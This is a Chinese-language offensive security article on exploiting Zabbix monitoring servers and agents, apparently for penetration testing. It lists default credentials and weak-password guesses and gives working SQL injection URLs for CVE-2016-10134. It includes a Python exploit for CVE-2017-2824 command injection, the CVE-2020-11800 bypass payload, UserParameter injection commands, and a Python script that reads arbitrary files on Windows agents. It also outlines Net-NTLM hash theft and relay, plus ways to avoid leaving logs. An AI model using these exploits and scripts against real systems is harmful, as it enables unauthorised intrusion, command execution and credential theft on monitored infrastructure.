# [](#zabbix-%E6%BC%8F%E6%B4%9E%E6%B7%B1%E5%85%A5%E5%88%A9%E7%94%A8)Zabbix 漏洞深入利用

## [](#1-%E5%89%8D%E8%A8%80)1 前言

[Zabbix](https://www.zabbix.com/) 是一个基于 WEB 界面的提供分布式系统监视系统监视以及网络监视功能的企业级的开源解决方案，能监视各种网络参数，保证服务器系统服务器系统的安全运营；并提供灵活的通知机制以让系统管理员快速定位、解决存在的各种问题。

### [](#11-%E7%BB%84%E4%BB%B6)1.1 组件

Zabbix 监控系统由以下几个组件部分构成：

-   **Zabbix Server**

Zabbix Server 是所有配置、统计和操作数据的中央存储中心，也是 Zabbix 监控系统的告警中心。在监控的系统中出现任何异常，将被发出通知给管理员。Zabbix Server 的功能可分解成为三个不同的组件，分别为 Zabbix Server 服务、Web 后台及数据库。

-   **Zabbix Proxy**

Zabbix Proxy 是在大规模分布式监控场景中采用一种分担 Zabbix Server 压力的分层结构，其多用在跨机房、跨网络的环境中，Zabbix Proxy 可以代替 Zabbix Server 收集性能和可用性数据，然后把数据汇报给 Zabbix Server，并且在一定程度上分担了 Zabbix Server 的压力。

-   **Zabbix Agent**

Zabbix Agent 部署在被监控的目标机器上，以主动监控本地资源和应用程序（硬盘、内存、处理器统计信息等）。Zabbix Agent 收集本地的状态信息并将数据上报给 Zabbix Server 用于进一步处理。

### [](#12-%E7%BD%91%E7%BB%9C%E6%9E%B6%E6%9E%84)1.2 网络架构


对于 Zabbix Agent 客户端来说，根据请求类型可分为被动模式及主动模式：

-   被动模式：Server 向 Agent 的 10050 端口获取监控项数据，Agent 根据监控项收集本机数据并响应。
-   主动模式：Agent 主动请求 Server (Proxy) 的 10051 端口获取监控项列表，并根据监控项收集本机数据提交给 Server (Proxy)

### [](#13-zabbix-agent-%E9%85%8D%E7%BD%AE)1.3 Zabbix Agent 配置

Zabbix Agent 服务的配置文件为 `zabbix_agentd.conf`，Linux 默认路径在 `/etc/zabbix/zabbix_agentd.conf`。



配置文件中包含的一些基本设置选项：

-   **Server 参数**

Server 或 Proxy 的 IP、CIDR、域名等，Agent 仅接受来自 Server 参数的 IP 请求（白名单）。

-   **ServerActive 参数**

Server 或 Proxy 的 IP、CIDR、域名等，用于主动模式，Agent 主动向 ServerActive 参数的 IP 发送请求。

-   **StartAgents 参数**

zabbix 启动之后开启被动监控的进程数量，默认为3。如果设置为 0，那么 zabbix 被动监控被禁用，并且不会监听 10050 端口。



配置文件中包含的一些可能存在风险的设置选项：

-   **Include 参数**

加载配置文件目录单个文件或所有文件，通常包含的 conf 都是配置 `UserParameter` 自定义用户参数。

-   **UserParameter 参数**

自定义用户参数，格式为`UserParameter=<key>,<command>`，Server 可向 Agent 执行预设的自定义参数命令以获取监控数据，以官方示例为例：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>UserParameter=ping[*],echo $1<br>``` |

当 Server 向 Agent 执行 `ping[aaaa]` 指令时，`$1` 为传参的值，Agent 经过拼接之后执行的命令为`echo aaaa`，最终执行结果为`aaaa`。

command 存在命令拼接，但由于传参内容受 `UnsafeUserParameters` 参数限制，默认无法传参特殊符号，所以默认配置利用场景有限。

-   **UnsafeUserParameters 参数**

自定义用户参数是否允许传参任意字符，默认不允许字符 `\ ' " `` * ? [ ] { } ~ $ ! & ; ( ) < > | # @`，当 UnsafeUserParameters=1 时，允许特殊字符。

以 `UserParameter=ping[*],echo $1` 为例，向 Agent 执行指令 `ping[test && whoami]`，经过命令拼接后最终执行 `echo test && whoami`，成功注入执行 shell 命令。

-   **EnableRemoteCommands 参数**

是否允许来自 Zabbix Server 的远程命令，开启后可通过 Server 下发 shell 脚本在 Agent 上执行。当值为 1 时，允许远程下发命令。

-   **AllowRoot 参数**

Linux 默认以低权限用户 zabbix 运行，开启后以 root 权限运行 zabbix\_agentd 服务。当其值为 1 时，允许以 root 权限执行命令。

## [](#2-zabbix-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E)2 Zabbix 历史漏洞

### [](#21-%E5%BC%B1%E5%8F%A3%E4%BB%A4)2.1 弱口令

#### [](#211-web-%E7%AB%AF)2.1.1 Web 端

Zabbix 安装后自带 Admin 管理员用户和 Guests 访客用户（低版本），可登陆 Zabbiax 后台。

常见弱口令组合：

-   `admin:zabbix`
-   `Admin:zabbix`
-   `guset:空口令`

#### [](#212-mysql-%E7%AB%AF)2.1.2 mysql 端

由于 root 用户默认情况下无法外连，运维通常会新建 MySQL 用户 `zabbix`，常见密码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>123456<br>zabbix<br>zabbix123<br>zabbix1234<br>zabbix12345<br>zabbix123456<br>``` |

拿下 MySQL 数据库后，可解密 users 表的密码 md5 值，或者直接替换密码的 md5 为已知密码，即可登录 Zabbix Web。

### [](#22-cve-2016-10134---sql-%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E)2.2 CVE-2016-10134 - SQL 注入漏洞

> 该漏洞的具体分析可参考：[zabbix SQL注入漏洞（CVE-2016-10134）](https://blog.iwonder.run/2020/12/20/zabbix-sql-zhu-ru-lou-dong-cve-2016-10134/)，原理是 insert 插入时未对用户输入的数据进行过滤，可以进行显错注入。

#### [](#221-%E5%B7%B2%E6%9C%89%E7%94%A8%E6%88%B7%E5%87%AD%E6%8D%AE)2.2.1 已有用户凭据

以 Guest 用户登录后，查看 Cookie 中的`zbx_sessionid`，复制后 `16` 位字符：



将这 16 个字符作为 sid 的值，访问 `http://your-ip:8080/latest.php?output=ajax&sid=16位 ID&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：



#### [](#222-%E6%97%A0%E7%94%A8%E6%88%B7%E5%87%AD%E6%8D%AE)2.2.2 无用户凭据

这个漏洞也可以通过 jsrpc.php 触发，且无需登录：`http://IP:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：




将用户密码 MD5 还原即可登录。漏洞利用脚本：[zabbixPwn](https://github.com/RicterZ/zabbixPwn)

### [](#23-cve-2017-2824---%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5)2.3 CVE-2017-2824 - 命令注入

利用该漏洞，需要服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。使用账号密码 `admin/zabbix` 登录后台，进入 Configuration->Actions，将 `Event source` 调整为 `Auto registration`，然后点击 `Create action`，创建一个 Action，名字随意：


第三个标签页，创建一个 Operation，type是 `Add Host`：


保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为 Agent。

第一条数据：

`active checks`是 Agent 主动检查时用于获取监控项列表的命令，Zabbix Server 在开启自动注册的情况下，通过 `active checks` 命令请求获取一个不存在的 host 时，自动注册机制会将 json 请求中的 host、ip 添加到 interface 数据表里。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```json<br>{"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>``` |

第二条数据：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```JSON<br>{"request":"command","scriptid":1,"hostid":10001}<br>``` |

`command` 指令可以在未授权的情况下可指定主机 (hostid) 执行指定脚本 (scriptid)，Zabbix 存在 3 个默认脚本，脚本中的 `{HOST.CONN}` 在脚本调用的时候会被替换成主机 IP。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br># scriptid == 1 == /bin/ping -c {HOST.CONN} 2>&1<br># scriptid == 2 == /usr/bin/traceroute {HOST.CONN} 2>&1<br># scriptid == 3 == sudo /usr/bin/nmap -O {HOST.CONN} 2>&1<br>``` |

`scriptid` 指定其中任意一个，`hostid` 为注入恶意 Payload 后的主机 id，但自动注册后的 `hostid` 是未知的，所以通过 `command` 指令遍历 `hostid` 的方式都执行一遍，最后成功触发命令注入漏洞。

由于默认脚本的类型限制，脚本都是在 Zabbix Server 上运行，Zabbix Proxy 是无法使用 command 指令的。payload 长度受限制可拆分多次执行，必须更换 host 名称以执行新的payload。

EXP 如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```python<br>import sys<br>import socket<br>import json<br>import sys<br><br><br>def send(ip, data):<br>    conn = socket.create_connection((ip, 10051), 10)<br>    conn.send(json.dumps(data).encode())<br>    data = conn.recv(2048)<br>    conn.close()<br>    return data<br><br><br>target = sys.argv[1]<br>print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>for i in range(10000, 10500):<br>    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})<br>    if data and b'failed' not in data:<br>        print('hostid: %d' % i)<br>        print(data)<br>``` |





### [](#24-cve-2020-11800---%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5)2.4 CVE-2020-11800 - 命令注入

该漏洞为基于 CVE-2017-2824 的绕过利用。未授权攻击者向 Zabbix Server 的 10051 端口发送 trapper 功能相关命令，利用漏洞即可在 Zabbix Server 上执行系统命令。

其中 CVE-2020-11800 漏洞通过 ipv6 格式绕过 ip 字段检测注入执行 shell 命令，**受数据表字段限制 Payload 长度只能为 64 个字符**。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```json<br>{"request":"active checks","host":"vulhub","ip":"ffff:::;whoami"}<br>``` |

由于 CVE-2017-2824 与 CVE-2020-11800 漏洞点及利用区别不大，不再复述。

## [](#3-zabbix-%E5%90%8E%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95)3 Zabbix 后渗透测试

在拥有 Zabbix Server 权限后，如何利用当前权限进一步控制 Zabbix Agent？前文讲到，Zabbix Agent 的 10050 端口仅处理来自 Zabbix Server 或 Proxy 的请求，所以后续攻击都是依赖于 Zabbix Server 权限进行扩展。

> 在 zabbix 中，我们要监控的某一个指标，被称为“监控项”，就像我们的磁盘使用率，在 zabbix 中就可以被认为是一个“监控项”(item)，如果要获取到“监控项”的相关信息，我们则要执行一个命令，但是我们不能直接调用命令，而是通过一个“别名”去调用命令，这个“命令别名”在 zabbix 中被称为“键”(key)，所以在 zabbix 中，如果我们想要获取到一个“监控项”的值，则需要有对应的“键”，通过“键”能够调用相应的命令，获取到对应的监控信息。

在控制 Zabbix Server 权限的情况下可通过 `zabbix_get` 命令向 Agent 获取监控项数据，比如说获取 Agent 的系统内核信息：


关于监控项，可以参考：

Agent监控项较多不一一例举，可以参考：

[1\. Zabbix Agent监控项](https://www.zabbix.com/documentation/4.0/zh/manual/config/items/itemtypes/zabbix_agent)

[2\. Zabbix Agent Windows监控项](https://www.zabbix.com/documentation/4.0/zh/manual/config/items/itemtypes/zabbix_agent/win_keys)

针对 item 监控项的攻击面进行挖掘，存在以下利用场景：

### [](#31-enableremotecommands-%E5%8F%82%E6%95%B0%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)3.1 EnableRemoteCommands 参数远程命令执行

前文讲到，Agent 远程执行系统命令需要在 `zabbix_agentd.conf` 配置文件中开启 EnableRemoteCommands 参数。

在 Zabbix Web 上添加脚本，`Execute on` 选项可根据需求选择，选择 `Zabbix server` 不需要开启 EnableRemoteCommands 参数，所以一般控制 Zabbix Web 后可通过该方式在 Zabbix Server 上执行命令拿到服务器权限。



如果要指定某个主机执行该脚本，可从 Zabbix Web 的“监测中 -> 最新数据”功能中根据过滤条件找到想要执行脚本的主机，单击主机名即可在对应 Agent 上执行脚本。


如果类型是 `Execute on Zabbix Agent` ，Agent 配置文件在未开启 EnableRemoteCommands 参数的情况下会返回报错。

如果不想在 Zabbix Web 上留下太多日志痕迹，或者想批量控制 Agent，拿下 Zabbix Server 权限后可以通过 zabbix\_get 命令向 Agent 执行监控项命令，**在 Zabbix Web 执行脚本实际上等于执行 system.run 监控项命令**。


### [](#32-userparameter-%E8%87%AA%E5%AE%9A%E4%B9%89%E5%8F%82%E6%95%B0%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5)3.2 UserParameter 自定义参数命令注入

当 Zabbiax Agent 的 `zabbix_agentd.conf` 配置文件开启 UnsafeUserParameters 参数的情况下，传参值字符不受限制，只需要找到存在传参的自定义参数 UserParameter，就能达到命令注入的效果。

以下面配置为例：



|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>zabbix_get -s agent -p 10050 -k "ping[test && id]"<br>``` |



### [](#33-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)3.3 任意文件读取

Zabbix Agent 如果没有配置不当的问题，是否有其他姿势可以利用呢？答案是肯定的。

Zabbix 原生监控项中，`vfs.file.contents`命令可以读取指定文件，但无法读取超过 64KB 的文件。



zabbix\_agentd 服务默认以低权限用户 zabbix 运行，读取文件受 zabbix 用户权限限制。开启 AllowRoot 参数情况下 zabbix\_agentd 服务会以 root 权限运行，利用 `vfs.file.contents` 命令就能任意文件读取。

如果文件超过 64KB 无法读取，在了解该文件字段格式的情况下可利用 `vfs.file.regexp` 命令正则获取关键内容。

### [](#34-windows-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86)3.4 Windows 目录遍历

Zabbix原生监控项中，`wmi.get` 命令可以执行 WMI 查询并返回第一个对象，通过 WQL 语句可以查询许多机器信息。

如：WQL 查询盘符

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>zabbix_get -s agent -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk\"]"<br>``` |

利用 `wmi.get` 命令进行目录遍历、文件遍历，结合 `vfs.file.contents` 命令就能够在 Windows 下实现任意文件读取。

基于 zabbix\_get 命令写了个 python 脚本，实现 Windows 的列目录、读文件功能。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>``` | ```python<br>import os<br>import sys<br><br>count = 0<br><br>def zabbix_exec(ip, command):<br>    global count<br>    count = count + 1<br>    check = os.popen("./zabbix_get -s " + ip + " -k \"" + command + "\"").read()<br>    if "Cannot obtain WMI information" not in check:<br>        return check.strip()<br>    else:<br>        return False<br><br>def getpath(path):<br>    return path.replace("\\","\\\\\\\\").replace("$","\\$")<br><br>def GetDisk(ip):<br>    where = ""<br>    while(True):<br>        check_disk = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM Win32_LogicalDisk WHERE Name != '' " + where + "\\\"]")<br>        if check_disk:<br>            print(check_disk)<br>            where = where + "AND Name != '" + check_disk+ "'"<br>        else:<br>            break<br><br>def GetDirs(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_dir = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Caption FROM Win32_Directory WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_dir:<br>            print(check_dir)<br>            where = where + "AND Caption != '" + getpath(check_dir) + "'"<br>        else:<br>            break<br><br>def GetFiles(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_file = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM CIM_DataFile WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_file:<br>            if "Invalid item key format" in check_file:<br>                continue<br>            print(check_file)<br>            where = where + "AND Name != '" + getpath(check_file) + "'"<br>        else:<br>            break<br><br>def Readfile(ip, file):<br>    read = zabbix_exec(ip, "vfs.file.contents[" + file + "]")<br>    print(read)<br><br>if __name__ == "__main__":<br>    if len(sys.argv) == 2:<br>        GetDisk(sys.argv[1])<br>    elif sys.argv[2][-1] != "\\":<br>        Readfile(sys.argv[1], sys.argv[2])<br>    else:<br>        GetDirs(sys.argv[1],sys.argv[2])<br>        GetFiles(sys.argv[1],sys.argv[2])<br>    <br>    print("Request count: " + str(count))<br>``` |

### [](#35-windows-unc-%E8%B7%AF%E5%BE%84%E5%88%A9%E7%94%A8)3.5 Windows UNC 路径利用

在 Windows Zabbix Agent 环境中，可以利用 `vfs.file.contents` 命令读取 UNC 路径，窃取 Zabbix Agent 机器的 Net-NTLM hash，从而进一步 Net-NTLM relay 攻击。

Window Zabbix Agent 默认安装成 Windows 服务，运行在 SYSTEM 权限下。在工作组环境中，system 用户的 Net-NTLM hash 为空，所以工作组环境无法利用。

在域内环境中，SYSTEM 用户即机器用户，如果是 Net-NTLM v1 的情况下，可以利用 Responder 工具获取 Net-NTLM v1 hash 并通过算法缺陷解密拿到 NTLM hash，配合资源约束委派获取域内机器用户权限，从而拿下 Agent 机器权限。

也可以配合 CVE-2019-1040 漏洞，relay 到 ldap 上配置基于资源的约束委派进而拿下 Agent 机器权限。（此处直接结果直接引用，未做实验）





### [](#36-zabbix-proxy-%E5%92%8C%E4%B8%BB%E5%8A%A8%E6%A3%80%E6%9F%A5%E6%A8%A1%E5%BC%8F%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF)3.6 Zabbix Proxy 和主动检查模式利用场景

通过 zabbix\_get 工具执行监控项命令只适合 Agent 被动模式且 10050 端口可以通讯的场景

如果在 Zabbix Proxy 场景或 Agent 主动检查模式的情况下，Zabbix Server 无法直接与 Agent 10050 端口通讯，可以使用比较通用的办法，就是通过 Zabbix Web 添加监控项。


其它配置同理，在此不做赘述。

## [](#%E5%8F%82%E8%80%83)参考

-   [Zabbix 攻击面挖掘与利用](http://noahblog.360.cn/zabbixgong-ji-mian-wa-jue-yu-li-yong/)
